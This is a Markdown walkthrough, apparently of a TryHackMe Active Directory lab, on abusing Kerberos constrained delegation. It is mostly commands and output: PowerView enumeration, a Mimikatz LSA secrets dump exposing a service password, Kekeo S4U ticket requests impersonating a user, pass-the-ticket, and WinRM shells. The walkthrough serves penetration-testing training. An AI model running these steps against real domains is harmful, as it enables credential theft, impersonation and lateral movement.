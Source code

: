 # Kerberos Delegation

Guide based on Tryhackme AD and [this post](https://benheater.com/tryhackme-exploiting-active-directory/).

## Enumerate Available Kerberos Delegates

Constrained Delegation restricts what services an account can be delegated to, limiting exposure if an account is compromised. The following are examples of services that can be configured for delegation:
* **HTTP** - Used for web applications to allow pass-through authentication using AD credentials.
* **CIFS** - Common Internet File System is used for file sharing that allows delegation of users to shares.
* **LDAP** - Used to delegate to the LDAP service for actions such as resetting a user's password.
* **HOST** - Allows delegation of account for all activities on the host.
* **MSSQL** - Allows delegation of user accounts to the SQL service for pass-through authentication to databases.

1. Enumerate with PowerView to see possible exploitable account.
```
PS C:\>Import-Module C:\Tools\PowerView.ps1 
PS C:\>Get-NetUser -TrustedToAuth
```

In this example, `svcIIS` is exploitable account. And we see the it allows HTTP and WSMAN

2. Further enumerate with mimikatz once identified
```
mimikatz.exe
token::elevate
lsadump::secrets
```

From the output you can see that the it shows the password:
```
Secret  : _SC_thmwinauth / service 'thmwinauth' with username : svcIIS@za.tryhackme.loc
cur/text: Password1@
```
Note: make sure to exit out of Mimikatz after the token::elevate command, otherwise the tickets will be loaded in the wrong context later on.
or run `token::revert` on mimikatz before continuing.

Alternatively, we can use `impacket-secretsdump`.

3. Now, we request TGT and perform an attack with kekeo.exe

We first need to generate a TGT that can be used to generate tickets for the HTTP and WSMAN services:
```
C:\Tools\kekeo\x64\kekeo.exe

kekeo # tgt::ask /user:svcIIS /domain:za.tryhackme.loc /password:Password1@
```

The output will show the ticket generated, focus on the last line of output
```
Realm        : za.tryhackme.loc (za)
User         : svcIIS (svcIIS)
CName        : svcIIS   [KRB_NT_PRINCIPAL (1)]
SName        : krbtgt/za.tryhackme.loc  [KRB_NT_SRV_INST (2)]
Need PAC     : Yes
Auth mode    : ENCRYPTION KEY 23 (rc4_hmac_nt      ): 43460d636f269c709b20049cee36ae7a
[kdc] name: THMDC.za.tryhackme.loc (auto)
[kdc] addr: 172.31.1.101 (auto)
  > Ticket in file 'TGT_svcIIS@ZA.TRYHACKME.LOC_krbtgt~za.tryhackme.loc@ZA.TRYHACKME.LOC.kirbi'
```

Then using the ticket generated, we request a S4U TGS on behalf of t1_trevor.jones to the HTTP and WSMAN service on THMSERVER1 using the TGT.
```
kekeo # tgs::s4u /tgt:TGT_svcIIS@ZA.TRYHACKME.LOC_krbtgt~za.tryhackme.loc@ZA.TRYHACKME.LOC.kirbi /user:t1_trevor.jones /service:http/THMSERVER1.za.tryhackme.loc

kekeo # tgs::s4u /tgt:TGT_svcIIS@ZA.TRYHACKME.LOC_krbtgt~za.tryhackme.loc@ZA.TRYHACKME.LOC.kirbi /user:t1_trevor.jones /service:wsman/THMSERVER1.za.tryhackme.loc
```

4. Now, we run mimikatz and pass the hash from http and wsman the gain escalation.
```
mimikatz.exe
privilege::debug
kerberos::ptt TGS_t1_trevor.jones@ZA.TRYHACKME.LOC_wsman~THMSERVER1.za.tryhackme.loc@ZA.TRYHACKME.LOC.kirbi
kerberos::ptt TGS_t1_trevor.jones@ZA.TRYHACKME.LOC_http~THMSERVER1.za.tryhackme.loc@ZA.TRYHACKME.LOC.kirbi
```

5. From here we can either run 2 option to gain shell.
First one is the exit mimikatz and use powershell
```
New-PSSession -ComputerName thmserver1.za.tryhackme.loc
Enter-PSSession -ComputerName thmserver1.za.tryhackme.loc
```

You will see that you escalated to trevor.jones when typing whoami:
```
[thmserver1.za.tryhackme.loc]: PS C:\Users\t1_trevor.jones\Documents> whoami
za\t1_trevor.jones
```

Second option is to directly gain a shell through mimikatz:
```
mimikatz # kerberos::ptt TGS_t1_trevor.jones@ZA.TRYHACKME.LOC_wsman~THMSERVER1.za.tryhackme.loc@ZA.TRYHACKME.LOC.kirbi

kerberos::ptt TGS_t1_trevor.jones@ZA.TRYHACKME.LOC_http~THMSERVER1.za.tryhackme.loc@ZA.TRYHACKME.LOC.kirbi

misc::cmd
```

Type `klist` and you will see 2 logons ticket

Then run this to start a WinRM session as t1_trevor.jones on THMSERVER1 on normal cmd:
```
winrs -r:THMSERVER1.za.tryhackme.loc cmd
```

